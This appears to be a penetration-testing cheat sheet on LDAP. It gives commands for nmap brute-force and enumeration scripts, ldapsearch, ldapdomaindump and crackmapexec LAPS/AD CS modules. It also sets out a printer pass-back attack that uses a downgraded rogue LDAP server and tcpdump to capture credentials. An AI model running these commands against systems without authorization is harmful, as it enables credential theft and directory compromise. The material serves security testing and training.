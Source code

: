 ```yaml
---
title: Lightweight Directory Access Protocol (LDAP) Pentesting
desc: Default port is 389 (LDAP), 636 (LDAPS).
tags: [389, 636, 3268, 3269, Active, Directory, LAPS, LDAP, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' -p 389 <target-ip>
    nmap --script ldap-search -p 389 <target-ip>
    nmap --script ldap-* -p 389 <target-ip>
    nmap --script "ldap* and not brute" -p 389 <target-ip>
    ```

<br />

## Search LDAP

```sh
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com"

# As administrator
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -w password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -W
```

<br />

## Dump the Active Directory Information

If you have the credential, you can get the Active Directory information via LDAP.

```sh
ldapdomaindump -u username -p password 10.0.0.1
```

<br />

## Connect

1. **Active Directory Certificate Services (AD CS)**

    ```sh
    cd crackmapexec
    # -M: module
    poetry run crackmapexec ldap <target-ip> -d 'domain' -u 'username' -p 'password' -M adcs
    ```

2. **Local Administrator Password Solution (LAPS)**

    ```sh
    cd crackmapexec
    # -M: module
    poetry run crackmapexec ldap <target-ip> -u 'username' -p 'password' --kdcHost <target-ip> -M laps
    ```

<br />

## Pass-Back Attack

Attack against the network devices such as printers.  
For example, access http://printer.sub.example.com/settings.aspx

- **Netcat**

    Open a listener for connecting back to your local machine.

    ```sh
    nc -lvp 389
    ```

    In browser, test LDAP settings where you input username and password.

- **Host Rogue LDAP Server**

    If you cannot connect back in local machine by Netcat, you need to create a rogue LDAP server.  
    Install the dependencies at first.

    ```sh
    sudo apt update
    sudo apt install -y slapd ldap-utils
    sudo systemctl enable slapd
    ``` 

    Configure your own rogue LDAP server by executing the following command.

    ```sh
    sudo dpkg-reconfigure -p low slapd

    # ---------------------------------------------------

    # in configuration dialog

    1. Omit OpenLDAP server configuration: No
    2. DNS domain name: <target-domain>
    3. Organization name: <target-domain>
    4. Administrator password: <arbitrary-password>
    5. Database backend to use: MDB
    6. Do you want the database to be removed when slapd is purged?: No
    7. Move old database?: Yes
    ```

    We need to make your rogue LDAP server to be vulnerable by downgrading the supported authentication mechanism.  
    Create the config file named "config.ldif".

    ```
    dn: cn=config
    replace: olcSaslSecProps
    olcSaslSecProps: noanonymous,minssf=0,passcred
    ```
    
    Now we can use the config file to patch the LDAP server.
    
    ```sh
    # -Y: SASL mechanism
    # -H: URI
    sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./config.ldif
    sudo service slapd restart
    ```
    
    We can verify that the rogue LDAP server’s configuration has been applied:
    
    ```sh
    ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
    ```
    
    For capturing the credentials, run the following command.
    
    ```sh
    sudo tcpdump -SX -i <target-interface-like-eth0> tcp port 389
    ```
    
    In browser, test the printer settings and capture the credentials via tcpdump.